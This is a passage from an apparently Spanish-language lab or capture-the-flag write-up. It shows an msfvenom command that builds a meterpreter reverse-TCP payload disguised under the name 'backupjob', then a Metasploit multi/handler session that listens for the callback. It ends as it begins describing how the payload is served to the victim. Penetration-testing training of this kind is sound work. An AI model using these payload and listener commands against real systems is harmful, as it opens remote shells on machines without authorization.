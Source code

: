 > Para arquitecturas x86 sería de la siguiente forma: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=8080 -f elf -o backupjob

### Configuración e inicio del multi/handler

El ```multi/handler``` se utiliza principalmente para manejar conexiones entrantes de payloads que se han ejecutado en sistemas objetivo. En términos simples, cuando un atacante envía un payload a un sistema objetivo y este payload se ejecuta, necesita "llamar a casa" o establecer una conexión con el atacante. El ```multi/handler``` es el componente de Metasploit que escucha estas conexiones entrantes y permite al atacante interactuar con la sesión establecida.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.49
LHOST => 10.10.14.49
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.49      yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.49:8080
```

> Para windows sería: set payload windows/meterpreter/reverse_tcp

### Subida y ejecución de arhivo malicioso

Procedemos a subir el payload configurado anteriormente a la máquina víctima. Pero primero nos montamos un servidor `HTTP` con python en el puerto 80 y en la carpeta en que se creó el payload.
